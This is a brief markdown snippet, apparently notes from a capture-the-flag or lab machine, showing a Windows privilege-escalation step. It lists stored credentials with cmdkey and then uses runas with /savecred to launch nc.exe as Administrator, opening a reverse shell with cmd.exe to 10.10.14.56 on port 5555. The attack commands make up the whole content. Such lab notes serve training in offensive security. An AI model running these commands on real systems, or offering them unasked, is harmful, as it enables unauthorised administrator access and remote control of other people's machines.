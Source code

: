 
# Find stored credentials
```bash
cmdkey /list
#  User: ACCESS\Administrator
```
-----------------------

# Run command as that user
```bash
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\temp\nc.exe 10.10.14.56 5555 -e cmd.exe"
```
-----------------------
